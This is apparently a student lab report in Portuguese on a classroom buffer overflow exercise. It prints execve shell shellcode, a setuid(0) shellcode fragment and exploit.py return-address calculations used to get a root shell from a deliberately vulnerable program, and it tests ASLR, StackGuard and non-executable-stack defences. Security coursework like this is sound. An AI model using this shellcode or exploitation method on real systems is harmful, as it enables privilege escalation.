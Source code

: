 # Laboratório 4 - Buffer Overflow

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

Antes de realizar a primeira tarefa, desligamos algumas contra-medidas do Ubuntu para dificultar o ataque por Buffer Overflow, utilizando os respectivos comandos no terminal:

- Address Space Randomization

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

- Configurando /bin/sh (Ubuntu 16.04 VM only)

```bash
sudo ln -sf /bin/zsh /bin/sh
```

## Tarefa 1 - Executar o código shell

Nesta tarefa executamos o seguinte código fornecido no roteiro para executar uma shell

```c
/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x50" /* Line 2: pushl %eax */
"\x68""//sh" /* Line 3: pushl $0x68732f2f */
"\x68""/bin" /* Line 4: pushl $0x6e69622f */
"\x89\xe3" /* Line 5: movl %esp,%ebx */
"\x50" /* Line 6: pushl %eax */
"\x53" /* Line 7: pushl %ebx */
"\x89\xe1" /* Line 8: movl %esp,%ecx */
"\x99" /* Line 9: cdq */
"\xb0\x0b" /* Line 10: movb $0x0b,%al */
"\xcd\x80" /* Line 11: int $0x80 */
;
int main(int argc, char **argv)
{
char buf[sizeof(code)];
strcpy(buf, code);
((void(*)( ))buf)( );
}
```

O resultado foi a exibição de uma nova shell

![Buffer-Overflow-Images/1_1.png](Buffer-Overflow-Images/1_1.png)

## Tarefa 2 - Explorando a vulnerabilidade

O objetivo da tarefa 2 era explorar a vulnerabilidade do programa fornecido **stack.c** através do script em python **exploit.py,** afim de exceutar uma shell com o privilégio root. O primeiro passo para a realização do ataque era descobrir o endereço de retorno da função bof ( ), portanto o programa **stack.c** foi compilado e debugado com o gcc, inserindo um breakpoint na função bof ( ).

Precisamos que o endereço de retorno seja sobrescrito para que o nosso código que ataque seja executado ao retornar para a função que chamou a função de cópia do arquivo badfile. Para isto precisamos saber o endereço base, EBP, que é utilizado para encontrar o frame pointer anterior. No ataque primeiro precisamos definir o offset para que o endereço de retorno possa ser encontrado, o seu tamanho será EBP - buffer + 4, já que a stack cresce de cima para baixo e a posição de escrita do endereço de retorno é imediatamente anterior à do EBP. Partindo disto conseguimos encontrar o endereço de retorno somando: buffer + offset + overflow.

![Buffer-Overflow-Images/Untitled.png](Buffer-Overflow-Images/Untitled.png)

Em seguida, os valores do registrador EBP e a variável buffer foram lidos.

![Buffer-Overflow-Images/Untitled%201.png](Buffer-Overflow-Images/Untitled%201.png)

Com esses valores, podemos alterar o script **exploit.py** para que gerasse o arquivo **badfile** contendo o endereço de retorno correto:

```python
##################################################################
buff = 0xbfffe840
ebp = 0xbfffe938
offset = ebp - buff + 4            # replace 0 with the correct value

ret    = buff + offset + 100 # replace 0xAABBCCDD with the correct value

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################
```

Em seguida, executamos o **exploit.py** no terminal para gerar o badfile. Por fim, executamos também o programa **stack** e obtivemos acesso à shell em modo privilegiado (root):

![Buffer-Overflow-Images/Untitled%202.png](Buffer-Overflow-Images/Untitled%202.png)

## Tarefa 3 - Invalidando a contra-medida da shell dash

Para superar esta medida, precisamos antes definir o UID para 0 antes de iniciar o execve().

Primeiro compilamos o programa dash_shell_test sem utilizar a definição do UID para 0 e obtivemos este resultado

![Buffer-Overflow-Images/Untitled%203.png](Buffer-Overflow-Images/Untitled%203.png)

Ao descomentar o setuid(0) no código, compilamos novamente o programa e o executamos. Podemos verificar que conseguimos obter acesso à shell com permissão de super usuário, uid=0:

![Buffer-Overflow-Images/Untitled%204.png](Buffer-Overflow-Images/Untitled%204.png)

Por fim, inserimos as seguintes instruções no código **exploit.py** para que o ataque fosse realizado no programa vulnerável **stack.c** quando o */bin/sh* está vinculado ao */bin/dash:*

```python
"\x31\xc0"  # Line 1: xorl %eax,%eax
"\x31\xdb"  # Line 2: xorl %ebx,%ebx
"\xb0\xd5"  # Line 3: movb $0xd5,%al
"\xcd\x80"  # Line 4: int $0x80
```

Com isso, executamos novamente o programa stack como na tarefa 2 e podemos observar que foi possível acessar a shell com os privilégios de um user root real:

![Buffer-Overflow-Images/Untitled%205.png](Buffer-Overflow-Images/Untitled%205.png)

## Tarefa 4 - Invalidando a contra medida de aleatoriedade de endereços

Primeiramente, desligamos a Address Space Randomization do Ubuntu e tentamos novamente executar a tarefa 2, obtendo um Segmentation Fault:

![Buffer-Overflow-Images/Untitled%206.png](Buffer-Overflow-Images/Untitled%206.png)

Em seguida, executamos o código fornecido no roteiro para tentar acessar a shell por meio de força bruta, já que o endereço base da stack agora tem 19 bits de entropia, o resultado da execução de todas as possibilidades do brute-force conseguiu ****acertar o endereço que está no arquivo badfile.

![Buffer-Overflow-Images/Untitled%207.png](Buffer-Overflow-Images/Untitled%207.png)

## Tarefa 5 - Ativando a proteção StackGuard

Para ativar esta proteção basta executar o programa sem o parâmetro `-fno-stack-protector` que o compilador GCC automaticamente a define por padrão. Ao repetir a tarefa 2 notamos um erro proveniente do mecanismo de defesa:

![Buffer-Overflow-Images/Untitled%208.png](Buffer-Overflow-Images/Untitled%208.png)

## Tarefa 6 - Ativando a proteção Non-executable Stack

Ao ativar a proteção do gcc `noexecstack` tornamos impossível a execução de código através da stack, executamos novamente a tarefa 2, porém obtivemos uma mensagem de segmentation fault como mostra a imagem a seguir:

![Buffer-Overflow-Images/Untitled%209.png](Buffer-Overflow-Images/Untitled%209.png)
